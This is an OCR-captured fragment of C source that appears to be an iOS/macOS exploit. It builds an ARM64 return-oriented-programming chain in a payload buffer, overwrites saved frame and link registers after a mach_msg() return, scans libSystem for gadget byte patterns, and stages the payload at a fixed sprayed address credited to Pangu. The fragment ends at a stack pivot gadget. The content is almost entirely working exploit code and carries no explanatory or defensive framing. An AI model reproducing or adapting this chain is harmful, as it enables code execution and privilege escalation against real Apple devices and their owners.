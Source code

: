 ```c

    // after mach_msg() jumps to +200, we have to resotre x29,x30 and x19
    // remember always sp = payload_address + rop_offset + 0x100, and 0x60 has been added by the mach_msg() epilogue
    stack_off+=0x60;
    sp = (uint64_t *)&main_payload[rop_offset +stack_off];
    sp[0x50/8] = 0x2929;    // X29
    sp[0x58/8] = control_x0_and_blr;    // // X30 (LR): now go control x0

    sp[0x48/8] = x0;    // X19 whill be copied into x0
    stack_off+=0x60;
    sp = (uint64_t *)&main_payload[rop_offset +stack_off];
    // taking control of x29,x30 again for next rop chain
    sp[0x10/8] = 0x1234;    // X29 (FP)
    sp[0x18/8] = br_x6;     // X30 (LR)

    // control_x0_and_blr : SP is increased by 0x20
    stack_off+=0x20;
    sp = (uint64_t *)&main_payload[rop_offset +stack_off];
    sp[0x30/8] = 0x1234;    // X29
    sp[0x38/8] = lr;     // X30 (LR)
    //after br_x6 the stack will increase by 0x40
    stack_off+=0x40;
    //rop_offset += stack_off;
    stack_offset =stack_off;

}
void do_prepare_payload(void)
{

    uint32_t tagsize = getpagesize()*10;
    uint8_t *tag2 = do_dummy_allocate_p(tagsize, 0xa0);
    uint64_t *vals;
    // Credit goes to Pangu for the constant address, thanks!
    payload_address = 0x118800000;
    printf("[+] Preparing payload and setting it at 0x%llx\n",payload_address);

    payload_size = 0x4000;
    if(!main_payload)
        main_payload = (uint8_t*)do_dummy_allocate_p(payload_size, 0);

    uint64_t sel = (uint64_t)sel_registerName("release");
    uint64_t libsystem = get_library_address("libSystem.B");

#if 0 /* Take more control on X0 */
     0xf9401000   ldr    x0, [x0, #0x20]
     0xf9400801   ldr    x1, [x0, #0x10]
     0xd61f0020   br     x1
#endif
    control_x0 = mem_search(libsystem, "\x00\x10\x40\xf9\x01\x08\x40\xf9\x20\x00\x1f\xd6", 12);

#if 0
    0x1f63d812c: 0xaa1303e0   mov    x0, x19
    0x1f63d8130: 0xa9417bfd   ldp    x29, x30, [sp, #0x10]
    0x1f63d8134: 0xa8c24ff4   ldp    x20, x19, [sp], #0x20
    0x1f63d8138: 0xd65f03c0   ret
#endif
    // we lost the x0 control due mach_msg_trap()'s return value,
    control_x0_and_blr = mem_search(libsystem, "\xe0\x03\x13\xaa\xfd\x7b\x41\xa9\xf4\x4f\xc2\xa8\xc0\x03\x5f\xd6", 16);


#if 0 /* stack pivot gadget */
```